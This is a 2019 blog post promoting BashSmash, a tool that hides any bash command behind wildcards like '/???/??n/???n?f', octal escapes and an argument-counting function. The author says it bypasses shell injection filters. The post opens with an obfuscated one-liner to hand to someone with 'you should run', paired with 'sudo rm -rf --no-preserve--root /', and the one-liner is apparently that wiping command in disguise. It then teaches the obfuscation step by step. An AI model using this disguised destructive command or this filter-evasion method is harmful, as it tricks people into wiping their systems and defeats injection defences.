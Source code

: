 ```yaml
---
layout: default
title: BashSmash
description: A tool for driving people crazy
date: 2019-06-26
tags:
- project
- bash
aliases:
- /blog/2019/06/26/bashsmash
- /blog/bashsmash
---
```


I was watching this great [Liveoverflow video](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=2ahUKEwiOhNze_4fjAhUiB50JHR12D8AQwqsBMAB6BAgJEAQ&url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3D6D1LnMj0Yt0&usg=AOvVaw2nOgft0SoPZujc9js9Vxhx){:target="_blank"} yesterday, and really liked the idea of building escape sequences with strings. So, I built a new tool, [BashSmash](https://pypi.org/project/bashsmash/){:target="_blank"}. 

## The goal
The goal of BashSmash is very similar to that described in Liveoverflow's video. Do anything in bash without using any letters or numbers except `n` and `f` (he used `i` instead of `f`). This can both bypass shell injection filters, and generally mess with people.

Saying "Hey, you should run:"
```bash
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Instead of:
```bash
sudo rm -rf --no-preserve--root /
```

Can usually get you much farther with your goal of world domination.

## How does this work?
BashSmash abuses bash wildcards, octal escape codes, and a large number of backslashes to obfuscate any valid shell script.

Firstly, it is important to know that `printf` will gladly convert any octal to a string, and bash's eval (`$()`) function will gladly run any string as a bash script. (See where this is going?)

Because of these tools, we know that the following is possible:
```bash
# Printf-ing a string will print the string
printf "hello" # This will return hello

# Printf-ing a sequence of octal escapes will also print a string
printf "\150\145\154\154\157" # This will also return hello

# Eval-ing a printf of an octal escape sequence will build a string, then run it in bash
$(printf "\150\145\154\154\157") # This will warn that "hello" is not a valid command
```

This has some issues. You may have noticed that letters are required to spell `printf`, and numbers are needed for the octal escapes. Let's start by fixing the letters problem.

Bash allows wildcards. You may have run something like `cp ./foo/* ./bar` before. This uses the wildcard `*`. The `*` wildcard will be auto-evaluated to expand into a list of all files in it's place.
```bash
# Let's assume that ./foo contains the following files:
#   john.txt
#   carl.txt

# Running the following:
cat ./foo/*

# Will automatically expand to:
cat ./foo/john.txt ./foo/carl.txt

# Now, lets assume that ./baz contains a single file:
#   KillHumans.sh

# Running:
./baz/*

# Will execute KillHumans.sh
```

Neat, Right? To take this a step further, you can use the second wildcard, `?`, to specify the number of characters you want to look for. Running `./baz/?` will not run `KillHumans.sh` because `KillHumans.sh` is not 1 char long. But `./baz/?????????????` will. This is messy, but it works.

Now, back to our problem with `printf`. `printf` is located in `/usr/bin/printf` on all *nix systems. This is handy as, firstly, this can be wildcarded, and secondly, the path contains 2 `n`'s and an `f` (the two letters we are allowed to use). So, instead of calling `printf`, we can call `/???/??n/???n?f`. 
```bash
# Now, we can call:
/???/??n/???n?f "\150\145\154\154\157"

# To print "hello". Or:
$(/???/??n/???n?f "\150\145\154\154\157")

# To run "hello" as a program (still gives an error)
```

Now, our problem with letters is solved, but we are still using numbers.

Bash allows anyone to define functions. These functions can take arguments and call other programs. So, what if we have a function that can take any number of arguments, and return the number of arguments as a number? This will be helpful because an empty argument can be added with `""` (not a number or letter), and this will replace the need for numbers in our code. On a side note, bash allows `__` as a function name, so that's cool. 

```bash
# Our function needs to do the following:
#   - Take any number of arguments
#   - Turn the number to a string
#   - Print the string so it can be evaluated back to a number with $()

# First, we start with an empty function, named __ (two underscores)
__() {};

# Easy. Next, we use a built-in feature of bash to count the number of arguments passed
__() { ${#} };

# With the ${#} feature in bash, giving this function 3 arguments will return a 3
# Next, we need to print this number to stdout 
# This can be done with printf
# We still do not want to use any letters or numbers, so we must use our string of wildcards
/???/??n/???n?f

# So, we just plug this into our function
__() {/???/??n/???n?f ${#}};

# Now, calling our function with three arguments
__ "" "" ""
# Will print:
3
```

Let's put this together. First, we must tell bash that our `__` function exists. 
``` bash
# We do this by starting our new script with: 
__() {/???/??n/???n?f ${#}};

# Next, an eval to actually run our constructed string. Together it now looks like this:
__() {/???/??n/???n?f ${#}); $(/???/??n/???n?f )

# Now, we construct a string using the __ function over and over again. "echo hello" looks like:
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Thats it! You do not actually have to worry about this, because BashSmash does it all for you automatically.

## How do I use the script?
To use BashSmash, simply make sure both `python3.7` and `python3-pip` are installed on your computer, then run:
```
pip3 install bashsmash
```

For more info, see the [PYPI Page](https://pypi.org/project/bashsmash/){:target="_blank"}.

## Why do you have a desire to break things with python
Because it is fun. Give it a try! 

I will have a post here at some point about the weird things I do in my python code and why I do them.
